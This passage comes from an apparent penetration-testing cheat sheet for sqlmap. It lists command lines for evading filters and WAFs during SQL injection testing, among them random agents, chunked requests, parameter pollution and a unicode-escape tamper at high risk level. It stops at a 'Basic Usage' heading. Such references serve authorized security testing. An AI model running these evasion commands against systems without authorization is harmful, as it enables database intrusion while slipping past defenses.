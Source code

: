 {% hint style="danger" %}
DBAs need certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.
{% endhint %}

### Bypasses

{% tabs %}
{% tab title="Unique Value" %}
```bash
sqlmap -r burp.req --batch -v 0 --randomize=rp 
```
{% endtab %}

{% tab title="Calculated Param" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```
{% endcode %}
{% endtab %}

{% tab title="Agent" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --random-agent
```
{% endcode %}
{% endtab %}

{% tab title="Chunked" %}
```bash
sqlmap -r burp.req --batch -v 0 --chunked
```
{% endtab %}

{% tab title="HPP" %}
```bash
sqlmap -r burp.req --batch -v 0 -hpp
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Unicode Escape" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --level=5 --risk=3 --tamper=charunicodeescape --delay 3
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Usage

### Basic Usage
